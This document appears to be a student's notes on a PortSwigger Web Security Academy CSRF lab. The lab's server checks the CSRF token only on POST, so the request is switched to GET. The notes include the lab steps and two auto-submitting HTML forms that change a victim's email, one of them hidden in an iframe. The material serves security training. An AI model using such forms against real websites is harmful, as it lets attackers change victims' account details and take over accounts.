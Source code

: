 ## **2. CSRF where token validation depends on request method**
This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests. 
1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that if you change the value of the `csrf` parameter then the request is rejected.
3. Use "Change request method" on the context menu to convert it into a GET request and observe that the CSRF token is no longer verified.
4. If you're using [Burp Suite Professional](https://portswigger.net/burp/pro), right-click on the request, and from the context menu select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".
    
    Alternatively, if you're using [Burp Suite Community Edition](https://portswigger.net/burp/communitydownload), use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL".
    
    `<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> <script> document.forms[0].submit(); </script>`
5. Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".
6. To verify if the exploit will work, try it on yourself by clicking "View exploit" and checking the resulting HTTP request and response.
7. Change the email address in your exploit so that it doesn't match your own.
8. Store the exploit, then click "Deliver to victim" to solve the lab.


Vulnerable parameter - email change functionality
Goal - exploit CSRF to change email address
Creds - wiener:peter

In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters: **Request method can be changed to GET which does not require CSRF token**

Testing CSRF Tokens:
1. Change the request method from POST to GET.

![[Pasted image 20240920210251.png]]
![[Pasted image 20240920210319.png]]
![[Pasted image 20240920210345.png]]
- now we can remove the CSRF token:
![[Pasted image 20240920210450.png]]

- HTML payload (form action="https://HOST/POST")
```
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-acee1f521e65f40d80e4b992006a0005.web-security-academy.net/my-account/change-email/" method="GET" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```
